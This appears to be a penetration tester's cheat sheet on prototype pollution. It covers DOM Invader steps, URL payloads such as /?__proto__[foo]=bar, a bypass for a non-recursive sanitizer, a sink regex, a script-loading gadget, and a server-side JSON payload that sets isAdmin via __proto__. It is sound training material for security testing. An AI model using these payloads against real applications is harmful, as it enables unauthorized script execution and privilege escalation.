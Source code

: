 [#](#) Prototype Pollution

> While browsing, `?constructor[prototype]...` content flashes in the URL bar? Yes, then try to exploit this...

## Prototype Pollution (DOM Invader)

Note: sometimes there's sanitizer blocking the detection (see manual)

1. Turn On Dom Invader
2. Attack -> Turn On Prototype Attacks
3. Browse normally the app and check the Dom tab
4. Scan for gadget -> Exploit -> If Not working, look at the sink value -> Any trailing caracter -> Add - or ; after the payload

## Manual

Find Prototype Source:

1. Prototype pollution vectors
2. 
    ```
    /?__proto__.foo=bar
    /?__proto__[foo]=bar
    /?constructor.prototype.foo=bar
    ```
3. Console: `Object.prototype`

    Injection

    `{foo: 'bar', __defineGetter__: ƒ, __defineSetter__: ƒ, hasOwnProperty: ƒ, __lookupGetter__: ƒ, …}`

    No Injection:

    `{ __defineGetter__: ƒ, __defineSetter__: ƒ, hasOwnProperty: ƒ, __lookupGetter__: ƒ, …}`

        Is there a santizer?

            ```
            // Vulnerability: not recurrent replace
            // Exploit: __pro__proto__to__ (i.e.: sandwich)
            
            function sanitizeKey(key) {
                let badProperties = ['constructor','__proto__','prototype'];
                for(let badProperty of badProperties) {
                    key = key.replaceAll(badProperty, '');
                }
                return key;
            }
            ```
            
Find a Sink:

```
(document\.|window\.)(write|writeln|createElement|domain)|location|eval|setTimeout|setInterval|innerHTML|outerHTML|insertAdjacentHTML|window\.open|onevent|Function
```


```
async function searchLogger() {

    // Object
    
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
    
        // Sink -> /?__proto__[transport_url]=data:,alert(1);
        
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

## Server Side


    ```
    POST /ChaneAddress
    {
        "City": "foo",
        "Address": 1234,
    }
    ```

    ```
    HTTP/2 200 OK
    
    {
        "username": "wiener",
        "City": "foo",
        "Address": 1234,
        "isAdmin":true
    }

    ```
Mass assignement not working? Try prototype pollution.

    ```
    {
        "City": "foo",
        "Address": 1234,
        "__proto__": {
            "isAdmin":"true"
        }
    }
    ```
